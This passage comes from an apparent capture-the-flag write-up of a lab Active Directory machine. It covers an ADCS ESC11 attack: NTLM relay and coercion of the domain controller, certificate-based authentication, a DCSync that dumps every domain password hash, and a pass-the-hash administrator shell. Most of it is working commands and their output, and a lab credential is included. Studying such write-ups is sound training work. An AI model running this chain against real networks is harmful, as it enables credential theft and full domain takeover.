CA Name                        : ghostlink-GPZ-OP26-SECURE-CA
DNS Name                       : gpz-op26-secure.ghostlink.htb
Enforce Encryption for Requests: Disabled

[!] Vulnerabilities
  ESC8  : ib Enrollment is enabled over HTTP.
  ESC11 : Encryption is not enforced for ICPR (RPC) requests.
```

**ESC11** the CA doesn't enforce encryption for ICPR (Certificate Request) traffic over RPC. This means i can perform an NTLM relay attack directly against the RPC endpoint of the CA. If i can coerce the DC (`DC01$`) to authenticate to us and relay that to the CA, i can request a Domain Controller certificate which then lets us get a TGT for the DC machine account and ultimately dump all hashes via DCSync.

### First Attempt: Wrong Target

My first try used `http://ghostlink.htb` as the relay target:

```bash
proxychains4 impacket-ntlmrelayx -t http://ghostlink.htb -smb2support --adcs --template DomainController
```

This got connections but kept saying the server didn't require authentication:

```
[*] Status code returned: 200. Authentication does not seem required for URL
[-] No authentication requested by the server for url ghostlink.htb
```

The enrollment endpoint wasn't configured for auth challenges the way ntlmrelayx expected. i needed to target the **RPC** endpoint of the CA instead.

### Second Attempt: Python Version Hell

Switched to the correct target:

```bash
sudo proxychains4 impacket-ntlmrelayx -t rpc://172.16.20.10 \
  -rpc-mode ICPR -icpr-ca-name 'ghostlink-GPZ-OP26-SECURE-CA' \
  -smb2support --template DomainController
```

This time the relay worked DC01$ authenticated but then crashed:

```
[*] (RPC): Authenticating connection from GHOSTLINK/DC01$@10.129.46.87 against rpc://172.16.20.10 SUCCEED [1]
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating CSR...
AttributeError: module 'OpenSSL.crypto' has no attribute 'X509Req'
```

The system's pyOpenSSL version was too new and had removed the `X509Req` class. The fix was to create a virtual environment and pin the right version:

```bash
python3 -m venv myvenv
source myvenv/bin/activate
pip3 install impacket
pip3 install "pyopenssl<24.0.0"
```

### Exploiting ESC11: The Actual Relay

With the fixed environment, i ran ntlmrelayx in one terminal:

```bash
proxychains4 ntlmrelayx.py -t rpc://172.16.20.10 \
  -rpc-mode ICPR -icpr-ca-name 'ghostlink-GPZ-OP26-SECURE-CA' \
  -smb2support --template DomainController
```

And triggered coercion using `nxc coerce_plus` in another terminal forcing DC01 to authenticate to us over SMB:

```bash
proxychains4 nxc smb 10.129.46.87 -u nvirelli -p 'u47YUclrDiwWxBheaSzI' \
  -M coerce_plus -o listener=10.10.15.199
```

```
COERCE_PLUS  DC01  VULNERABLE, DFSCoerce
COERCE_PLUS  DC01  Exploit Success, netdfs\NetrDfsRemoveRootTarget
COERCE_PLUS  DC01  VULNERABLE, PetitPotam
COERCE_PLUS  DC01  Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS  DC01  VULNERABLE, PrinterBug
```

Back in the ntlmrelayx terminal:

```
[*] (RPC): Authenticating connection from GHOSTLINK/DC01$@10.129.46.87 against rpc://172.16.20.10 SUCCEED [1]
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating CSR...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> CSR generated!
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Getting certificate...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Successfully requested certificate
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Request ID is 5
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Writing PKCS#12 certificate to ./DC01.pfx
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Certificate successfully written to file
```

i have a Domain Controller certificate.

### Authenticating with the Certificate

Using the certificate to get a TGT for `DC01$`:

```bash
certipy-ad auth -pfx DC01.pfx -dc-ip dc01.ghostlink.htb \
  -dns-tcp -ns 10.129.46.87 -timeout 10 -domain ghostlink.htb
```

First attempt failed with a clock skew error Kerberos requires clocks to be within 5 minutes of the KDC:

```
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Fixed by syncing our clock to the DC:

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.129.46.87
sudo ntpdate -u 10.129.46.87
```

Then ran certipy auth again:

```
[*] Using principal: 'dc01$@ghostlink.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@ghostlink.htb': aad3b435b51404eeaad3b435b51404ee:6880621bc7902a64899e73eb74e3402e
```

i have the machine account NT hash for `DC01$`. With this, i can perform a **DCSync** attack and dump all domain credentials:

```bash
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:6880621bc7902a64899e73eb74e3402e \
  'ghostlink.htb/DC01$@10.129.46.87'
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8190e067f478002ddd63eb209b016696:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d032cdb20005fe4a260fc17b8a9baf68:::
ghostlink.htb\nvirelli:1103:aad3b435b51404eeaad3b435b51404ee:676129a0598fcd8665c6a7caaaa9c439:::
ghostlink.htb\kdraven:1104:aad3b435b51404eeaad3b435b51404ee:6f228ee2322bc5802680157a0bb09290:::
ghostlink.htb\zkovacs:1105:aad3b435b51404eeaad3b435b51404ee:efa7696cf5cf11f9d9eab34a4b71c630:::
ghostlink.htb\ohexley:1106:aad3b435b51404eeaad3b435b51404ee:f9d02e5c934d0f49661e86da2d9bf62b:::
ghostlink.htb\vroth:1107:aad3b435b51404eeaad3b435b51404ee:286496e744bdae43a3d4eb1b78a21f03:::
ghostlink.htb\dsoren:1108:aad3b435b51404eeaad3b435b51404ee:c8bd48ecd2e04f54559a9abfbd5353dd:::
ghostlink.htb\lnoctis:1109:aad3b435b51404eeaad3b435b51404ee:847f06a359aab5d209040bae012abc9e:::
ghostlink.htb\svc_canary:1601:aad3b435b51404eeaad3b435b51404ee:dd59d9a99a629a612d7f03be5473c6fe:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:6880621bc7902a64899e73eb74e3402e:::
```

Administrator NT hash: `8190e067f478002ddd63eb209b016696`.

---

## Root

Pass-the-Hash with evil-winrm:

```bash
evil-winrm -u Administrator -H 8190e067f478002ddd63eb209b016696 -i 10.129.46.87
```

```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
ghostlink\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5fe5f27b941e4a3c175dREDACTED6d442
```

Domain compromised.

---

## Lessons Learned

**MQTT can be a goldmine.** Most people don't think to look at it on a pentest, but an open MQTT broker with anonymous access basically hands you a live map of the internal network hostnames, IPs, health check URLs, and even service behavior patterns. Always check port 1883 if it's open.

**NTLM relay through SOCKS is tricky but poirful.** The race condition with ghostsurf was a good lesson relay sessions over SOCKS have a tight lifespan, especially when the target does long-running operations. The fix (chaining publish → sleep → curl) is a pattern worth remembering for similar relay situations.

**Windows forensic artifacts are useful even without admin.** i didn't need any special privileges to learn about `db.zip` just read access to `NTUSER.DAT` via the path traversal. Registry artifacts like `RecentDocs` combined with `.lnk` files in the `Recent` folder are a standard forensic technique that translates ill to offensive scenarios too.

**Password policy information in the wrong place is a serious leak.** Finding the password policy in the KeePass Recycle Bin (even as a deleted entry) let us trim the wordlist from 14 million to 46,000 candidates. That turned a potentially multi-hour crack into a 34-second one.

**Python environment issues are a real obstacle for ESC11.** The `OpenSSL.crypto.X509Req` error isn't unique to this box it's a known compatibility issue with neir pyOpenSSL versions. When hitting this, the fix is always to pin `pyopenssl<24.0.0`. Creating a dedicated venv for impacket is a good habit.

**Clock skew matters for Kerberos.** It's a small thing but forgetting to sync the clock before using certipy auth with a certificate will waste your time. `rdate` or `ntpdate` against the DC, then disable NTP (`timedatectl set-ntp off`) before syncing that's the sequence.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service enumeration |
| **mosquitto_sub / mosquitto_pub** | MQTT client for subscribing and publishing |
| **ghostsurf** | NTLM relay with SOCKS proxy support |
| **curl** | HTTP requests through SOCKS proxy |
| **regripper** | Windows registry hive analysis |
| **keepassxc-cli** | CLI interface for KeePass databases |
| **cve-2025-8110 PoC** (kayl22) | Gogs symlink RCE exploit |
| **nc (netcat)** | File transfer & shell listener |
| **sqlite3** | Gogs database analysis |
| **GogsToHashcat.py** | Convert Gogs PBKDF2 hash to hashcat format |
| **hashcat** | Password cracking (mode 10900 PBKDF2-HMAC-SHA256) |
| **bloodhound-python** | BloodHound data collection |
| **BloodHound CE** | Active Directory attack path visualization |
| **chisel** | Reverse SOCKS proxy tunnel |
| **certipy-ad** | ADCS enumeration and exploitation |
| **impacket-ntlmrelayx** | NTLM relay (ESC11 via RPC) |
| **impacket-secretsdump** | DCSync / NTDS credential dumping |
| **evil-winrm** | WinRM shell with pass-the-hash |
| **nxc (NetExec)** | SMB auth + coerce_plus coercion module |

**References:**
- [CVE-2025-8110 PoC kayl22](https://github.com/kayl22/cve-2025-8110-GOGS-RCE)
- [Wiz Research: CVE-2025-8110 write-up](https://www.wiz.io/blog/wiz-research-gogs-cve-2025-8110-rce-exploit)
- [GogsToHashcat](https://github.com/unix-ninja/GogsToHashcat)
- [ghostsurf](https://github.com/senderend/ghostsurf)
- [ESC11 explanation Certipy docs](https://github.com/ly4k/Certipy)
